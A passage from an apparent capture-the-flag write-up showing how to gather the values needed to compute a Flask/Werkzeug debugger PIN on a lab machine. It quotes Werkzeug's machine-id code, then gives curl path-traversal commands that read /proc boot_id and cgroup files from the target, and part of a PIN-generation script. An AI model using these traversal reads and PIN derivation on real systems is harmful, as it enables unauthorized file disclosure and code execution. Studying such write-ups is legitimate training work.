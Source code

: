                if value:
                    linux += value
                    break

            # Containers share the same machine id, add some cgroup
            # information. This is used outside containers too but should be
            # relatively stable across boots.
            try:
                with open("/proc/self/cgroup", "rb") as f:
                    linux += f.readline().strip().rpartition(b"/")[2]
            except OSError:
                pass

            if linux:
                return linux

            # On OS X, use ioreg to get the computer's serial number.
            try:
    ...[snip]...



It starts with an empty string, and then tried to append both the
contents of `/etc/machine-id` and `/proc/sys/kernel/random/boot_id`.
Then there's a section on containers so it tries to append part of
`/proc/self/cgroup`.

`/etc/machine-id` isn't found, but the other two are:



    oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads/..//proc/sys/kernel/random/boot_id --ignore-content-length 
    a97273a3-1bd3-4436-91ae-ab0973b75d73
    oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads/..//proc/self/cgroup --ignore-content-length 
    12:hugetlb:/docker/0b91b5646d729be7c8657d19a6140c946b56fe35bd7cd0e10d2d18ecea9d81c8
    ...[snip]...



From the second file there, I need only the first line, from the last
`/` to the end. The script is now set up:



    ...[snip]...
    probably_public_bits = [
        'root',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
    ]
